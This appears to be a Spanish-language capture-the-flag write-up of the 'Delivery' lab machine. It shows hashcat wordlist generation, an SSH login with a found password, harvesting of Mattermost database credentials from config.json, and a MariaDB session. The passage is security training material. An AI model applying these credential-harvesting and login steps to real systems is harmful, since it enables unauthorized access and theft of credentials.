 Nos `creamos` un `archivo` con la contraseña `PleaseSubscribe!` y empleamos `hascat` para `crear` un `diccionario` con `variaciones` de esta `contraseña`

```
# hashcat --stdout password -r /usr/share/hashcat/rules/best64.rule > wordlist.txt
```
## Intrusión

Nos `conectamos` mediante `ssh`

```
# sshpass -p Youve_G0t_Mail! ssh maildeliverer@10.129.171.107   
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
```
## Privilege Escalation 

En el archivo `config.json` he encontrado `credenciales` para la `base` de `datos`

```
maildeliverer@Delivery:/opt/mattermost/config$ nano config.json
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "DataSourceReplicas": [],
    "DataSourceSearchReplicas": [],
    "MaxIdleConns": 20,
    "ConnMaxLifetimeMilliseconds": 3600000,
    "MaxOpenConns": 300,
    "Trace": false,
    "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
    "QueryTimeout": 30,
    "DisableDatabaseSearch": false
}
```

Nos `conectamos` a la `base` de `datos` con las credenciales `mmuser:Crack_The_MM_Admin_PW` y `obtenemos` varias `credenciales` hasheadas

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 129
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)
```